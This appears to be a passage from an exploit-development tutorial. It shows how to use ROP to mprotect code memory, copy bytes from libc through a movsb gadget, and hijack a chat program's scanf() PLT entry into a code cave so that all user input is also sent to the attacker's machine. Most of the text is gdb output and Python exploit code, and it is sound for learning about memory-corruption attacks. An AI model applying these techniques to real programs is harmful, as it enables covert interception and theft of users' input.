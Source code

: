 We're gonna do something interesting: by exploting the vulnerability using ROP techniques, we will inject malcious code into the program by manipulating the existing code. The program will continue running, but now all input given to the chat program will also be sent to the hacker's computer.


For some extra fun, we'll do the following:

- Find the bytes we need somewhere in memory.

```
(gdb) find/1b system, +999999999999, 0xe9, 0x9b, 0x02, 0x00, 0x00
0x7ffff7f43331
1 pattern found.
```

- Then use a custom function, which can copy any number of bytes from one memory location to another.

```
def bncpy(dest, src, n):
    result =  poprdi + struct.pack("<Q", dest)
    result += poprsi + struct.pack("<Q", src)
    for i in range(n):
        # 0x00000000000a5980: movsb byte ptr [rdi], byte ptr [rsi]; ret;
        result += struct.pack("<Q", libc_base + 0xa5980)
    return result
```

> `movsb` copies a byte from source to destination address, and also increments both addresses.

> You can modify `bncpy()` to use fewer instructions for longer sequences of bytes.

We could of course put all needed bytes through `fscanf()` directly (as long as we avoid badchars), then use `bncpy()` or similar to copy the data to where we want it, but I think it's funny jumping all over libc collecting tiny pieces here and there.

### The exploit

Below, the multiple steps of the exploit are described.

#### Use `mprotect()` to set the memory area of the code cave and `.plt` to writeable.

After `rip` is in our control, `mprotect()` is called. This was covered in the previous post.

```
# mprotect() arguments
addr   = struct.pack("<Q", 0x401000)
length = struct.pack("<Q", 1)
prot   = struct.pack("<Q", 7)
```

#### Overwrite jump to `scanf()` with jump to a code cave.

We will hijack the call to `scanf()` in `chat()` to move execution to our malicious code:

``` bash
(gdb) disas chat
Dump of assembler code for function chat:
...
   0x000000000040117e <+40>:    callq  0x401060 <__isoc99_scanf@plt>
...
(gdb) disas/r 0x401060
Dump of assembler code for function __isoc99_scanf@plt:
   0x0000000000401060 <+0>:     ff 25 ca 2f 00 00    jmpq   *0x2fca(%rip)  # 0x404030 <__isoc99_scanf@got.plt>
   0x0000000000401066 <+6>:     68 03 00 00 00       pushq  $0x3
   0x000000000040106b <+11>:    e9 b0 ff ff ff       jmpq   0x401020

```
